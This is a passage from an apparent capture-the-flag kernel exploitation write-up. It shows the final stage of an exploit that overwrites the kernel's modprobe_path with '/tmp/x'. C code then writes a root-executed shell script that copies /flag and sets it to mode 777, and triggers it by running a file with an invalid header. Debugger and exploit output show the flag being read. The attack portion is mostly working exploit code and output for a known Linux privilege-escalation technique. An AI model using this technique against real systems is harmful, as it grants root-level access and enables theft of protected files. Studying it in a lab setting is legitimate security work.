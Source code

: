 Let's run it and check whether we've successfully overwritten it by putting a breakpoint after our last write:

```c
pwndbg> x/s 0xc187d3c0
0xc187d3c0:     "/tmp/x"
```

Now, the only thing left is to create a shell script in `/tmp/x`, and a dummy file to execute. We can do so like this:

```c
void get_flag(void){
    puts("[*] In userspace, setting up for fake modprobe...");
    
    // Craft shellscript that'll be called when modprobe is called.
    // The script simply copies flag to /tmp and gives us permission.
    system("echo '#!/bin/sh\ncp /flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    // Create a dummy script to execute in order to call modprobe.
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    // Run the dummy.
    puts("[*] Running file with unknown signature...");
    system("/tmp/dummy");

    puts("[*] Opening copied flag file...");
    system("cat /tmp/flag");

    exit(0);
}
```

The function is self-explanatory, and we'll call it at the end of our `main`.

When we execute it all and piece it all together, we get:

```shell
...
[    2.664200] crc generated! 0
[    2.664270] crc generated! 0
[    2.664359] crc generated! 0
[    2.664426] crc generated! 0
[    2.664510] crc generated! 0
[    2.664585] crc generated! 0
Detected 2 CPUs; pinning threads across them.
[    2.667637] crc generated! 64456d4e
[    2.667689] crc generated! 64456d4e
Writing in thread 1
Writing in thread 0
Success!
Success!
Overwriting idx...
[    2.669832] crc generated! fe41bc8f
Overwriting modprobe_path...
[    2.670351] crc generated! 706d742f
[    2.670769] crc generated! 782f
[*] In userspace, setting up for fake modprobe...
[*] Running file with unknown signature...
/tmp/dummy: line 1: ����: not found
[*] Opening copied flag file...
dummy_flag_get_realone
```
